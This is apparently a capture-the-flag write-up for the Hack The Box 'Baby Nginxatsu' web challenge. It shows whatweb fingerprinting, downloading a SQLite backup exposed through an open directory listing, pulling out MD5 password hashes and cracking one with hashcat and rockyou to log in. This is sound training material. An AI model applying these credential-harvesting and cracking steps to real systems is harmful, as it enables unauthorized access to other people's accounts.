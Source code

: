 # [Baby Nginxatsu](https://app.hackthebox.eu/challenges/180)

__Title__: Baby Nginxatsu write-up  
__Description__: A web site that allow user to create Nginx config   
__summary__: We were able to retrieve the admin password from a SQLite backup left on the server  
__Tags__:  nginx, php, sqlite, hashcat  
__host__: 178.128.175.172:32194  

![homepage image of baby-nginxatsu](https://github.com/clobee/images/blob/main/Screenshot_2021-01-10%20nginxatsu.png)

---  

## Enumeration

### Initial

The first thing we did was to use the application (just like any user)

- Created an account
- Created few config files

### Platform information

```bash
$ whatweb 178.128.175.172:32194

http://178.128.175.172:32194 [302 Found] Cookies[XSRF-TOKEN,laravel_session], Country[GREECE][GR], HTML5, HTTPServer[nginx], HttpOnly[laravel_session], IP[178.128.175.172], Laravel, Meta-Refresh-Redirect[http://178.128.175.172:32194/auth/login], PHP[7.4.12], RedirectLocation[http://178.128.175.172:32194/auth/login], Title[Redirecting to http://178.128.175.172:32194/auth/login], X-Powered-By[PHP/7.4.12], nginx

http://178.128.175.172:32194/auth/login [200 OK] Cookies[XSRF-TOKEN,laravel_session], Country[GREECE][GR], HTTPServer[nginx], HttpOnly[laravel_session], IP[178.128.175.172], Laravel, Meta-Author[makelarisjr, makelaris], PHP[7.4.12], PasswordField[password], Title[nginxatsu], X-Powered-By[PHP/7.4.12], nginx
```
Running `whatweb` against the application we managed to get some information about the platform: Laravel (PHP 7.4.12)

### Nginx Config generator

The application generates Nginx configs that can be viewed using the id of the config E.g: http://178.128.175.172:32194/config/51

#### Configs storage

One interesting thing is that we can see the raw config E.g http://178.128.175.172:32194/storage/nginx_5ffb34aac767f.conf

visiting the folder http://178.128.175.172:32194/storage/ we can see that the server list all the available configs.

We can also see an interesting file: `v1_db_backup_1604123342.tar.gz`

```bash
$ wget http://178.128.175.172:32194/storage/v1_db_backup_1604123342.tar.gz

--2021-01-10 17:31:20--  http://178.128.175.172:32194/storage/v1_db_backup_1604123342.tar.gz
Connecting to 178.128.175.172:32194... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42496 (42K) [text/plain]
Saving to: ‘v1_db_backup_1604123342.tar.gz’

v1_db_backup_1604123342.t 100%[===================================>]  41.50K  --.-KB/s    in 0.06s   

2021-01-10 17:31:20 (691 KB/s) - ‘v1_db_backup_1604123342.tar.gz’ saved [42496/42496]
```

We are dealing with a tar file

```bash
$ file v1_db_backup_1604123342.tar.gz 
v1_db_backup_1604123342.tar.gz: POSIX tar archive (GNU)
```

Let's extract everything

```bash
$ tar -tvf v1_db_backup_1604123342.tar.gz
-rw-r--r-- www/www       40960 2021-01-10 16:50 database/database.sqlite
```

```bash
$ tar -xvf v1_db_backup_1604123342.tar.gz
database/database.sqlite
```

Let's load the file in `DB Browser for SQLite`

![DB Browser SQLite](https://github.com/clobee/images/blob/main/Screenshot_2021-01-10_17-47-13.png)

We have been able to retrieve few users (and their passwords hashes) from the DB.

![DB Browser SQLite](https://github.com/clobee/images/blob/main/Screenshot_2021-01-10_17-49-25.png)

### Password cracking

The password hashes are in MD5 

```bash
$ hash-identifier e7816e9a10590b1e33b87ec2fa65e6cd
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
````
Let's store the passwords hashes in a file 

```bash
$ cat users 

e7816e9a10590b1e33b87ec2fa65e6cd
96daf5684cfda2dd61750c3719f5fb19
ecbbcb87173b6501ef44184c58d380a7
```

Using Hashcat we have retrieved a password

```bash
$ hashcat -m 0 passwords /usr/share/wordlists/rockyou.txt       
hashcat (v6.1.1) starting...

...
```

```bash
$ hashcat -m 0 passwords /usr/share/wordlists/rockyou.txt --show
e7816e9a10590b1e33b87ec2fa65e6cd:XXXXXXXX
```

At this point we have `jr` password `XXXXXXX`

Using those information can log in to `jr` account and get the flag.
